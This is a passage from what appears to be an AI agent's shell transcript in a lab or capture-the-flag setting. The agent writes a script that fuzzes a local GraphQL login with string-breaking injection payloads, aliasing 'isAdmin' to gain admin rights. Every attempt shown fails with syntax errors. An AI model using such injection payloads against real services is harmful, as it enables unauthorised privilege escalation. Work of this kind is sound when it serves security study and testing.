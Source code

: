 ```bash
+    user = 'u_'+''.join(random.choice(string.ascii_lowercase) for _ in range(6))
+    pw = 'p_'+''.join(random.choice(string.ascii_lowercase) for _ in range(6))
+    register_user(user, pw)
+    candidates = [
+        # close string, close vars, open our selection
+        pw + '" ) { login(username: "'+user+'", password: "'+pw+'") { ok isAdmin: ok username } }',
+        # without closing own selection, try merge
+        pw + '" ) { login(username: "'+user+'", password: "'+pw+'") { ok isAdmin: ok username }',
+        # attempt fragment trick
+        pw + '" ) { login(username: "'+user+'", password: "'+pw+'") { ok isAdmin: ok username } } fragment F on Query ',
+        # attempt to make next part a string via block string
+        pw + '" ) { login(username: "'+user+'", password: "'+pw+'") { ok isAdmin: ok username } } """',
+        # try alias only and let original selection be inside fragment
+        pw + '" ) { login(username: "'+user+'", password: "'+pw+'") { ok isAdmin: ok username } } fragment F on Query @skip(if: true) ',
+    ]
+    for i,c in enumerate(candidates):
+        code, text = try_query(user, c)
+        print(i, code)
+        print(text[:400])
+
+if __name__ == '__main__':
+    fuzz()
+
*** End Patch
PATCH
```

**Output**

```bash
Success. Updated the following files:
A fuzz_local.py
```

- Exit code: 0
- Duration: 0 s


##### shell

**Command**

```bash
~/.venv/bin/python3 fuzz_local.py | sed -n '1,200p'
```

**Output**

```bash
0 400
{"errors":[{"locations":[{"column":162,"line":2}],"message":"Syntax Error: Unterminated string."}]}

1 400
{"errors":[{"locations":[{"column":160,"line":2}],"message":"Syntax Error: Unterminated string."}]}
... (5 lines truncated) ...
{"errors":[{"locations":[{"column":5,"line":9}],"message":"Syntax Error: Unterminated string."}]}

4 400
{"errors":[{"locations":[{"column":199,"line":2}],"message":"Syntax Error: Unterminated string."}]}
```
